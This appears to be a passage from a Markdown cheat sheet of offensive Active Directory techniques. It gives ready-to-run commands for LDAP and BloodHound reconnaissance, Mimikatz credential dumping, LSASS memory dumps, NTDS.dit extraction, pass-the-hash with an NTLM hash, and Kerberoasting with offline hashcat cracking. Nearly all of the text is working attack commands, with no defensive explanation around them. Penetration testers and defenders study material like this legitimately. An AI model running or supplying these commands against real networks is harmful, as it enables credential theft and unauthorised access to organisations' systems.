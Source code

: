 #### ⚙️ LDAP Enumeration

```bash
ldapsearch -x -H ldap://dc.example.local -D "" -b "dc=example,dc=local"
```

#### 🧠 Automated Recon

```bash
bloodhound-python -u user -p pass -d example.local -c All --zip
```

Upload to **BloodHound GUI** → visualize privilege paths.

***

### III. 💣 Credential Harvesting Techniques

#### ⚙️ Mimikatz (on Windows)

```bash
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
```

#### 🧠 Dump LSASS Memory (offline)

```bash
procdump64.exe -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```

#### ⚙️ Extract from NTDS.dit

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

#### 💣 Pass-the-Hash (PTH)

```bash
pth-winexe -U 'Administrator%aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' //10.0.0.5 cmd
```

***

### IV. 🧠 Kerberos-Based Attacks

#### 🧩 Kerberoasting

Extract service tickets (TGS) for SPNs, then crack offline.

```bash
GetUserSPNs.py example.local/user:pass -outputfile hashes.kerberoast
hashcat -m 13100 hashes.kerberoast rockyou.txt
```
